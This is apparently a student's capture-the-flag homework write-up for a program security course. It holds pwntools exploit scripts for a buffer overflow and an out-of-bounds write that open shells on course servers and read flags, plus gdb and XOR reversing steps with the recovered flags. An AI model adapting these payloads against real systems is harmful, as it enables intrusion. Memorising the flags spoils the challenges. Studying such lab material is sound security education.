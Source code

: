 # Program Security Hw00

### HelloWorld

```
Just copy past!!

FLAG{Hello CTF}
```

### Pwn1
```python=
#!/usr/bin/env python

from pwn import *

r = remote('csie.ctf.tw', 10120)

payload = '0123456789012345678901234567890100000000'
+ '\x66\x05\x40\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```
```
Get Shell!
$ cd /home/pwn1 && cat flag

FLAG{BuFFer_0V3Rflow_is_too_easy}
```


### BubbleSort
```python=
#!/usr/bin/env python

from pwn import *

payload = '127' + '\n' + '134514048 '
 + '0 ' * 126 + '\n' + '-125\n'

r = remote('csie.ctf.tw', 10121)
r.sendline(payload)
r.interactive()
```
```
Get Shell!!
$ cd /home/BubbleSort && cat flag

FLAG{Bubble_sort_is_too_slow_and_this_question_is_too_easy}
```

### Rev1
```
# Entering gdb console

$ gdb rev1
(gdb) break main
(gdb) r
(gdb) call print_flag()

FLAG{_reverse_is_fun}
```

### Rev2

查詢"Try harder" 在哪邊被使用過
之後找到一連串的xor以及cmp instruction
做Reverse之後得到flag

詳細如下

#### 0x401101
```
loc_401101:             ; uType
push    30h
push    offset Caption  ; lpCaption
push    offset aTryHarder ; "Try harder!"
push    0               ; hWnd
call    ds:MessageBoxA
mov     eax, 1

...

```

![](https://i.imgur.com/O8BPyZW.png)

#### unk_4120BC 
```
    0x8a808d8bb794fcbe93b8a3938fbef8afa79381ffb1 
    
    xor with 0xccccccc...
    
    Get flag FLAG{X0r_to_Cr4ck_M3}
```
    
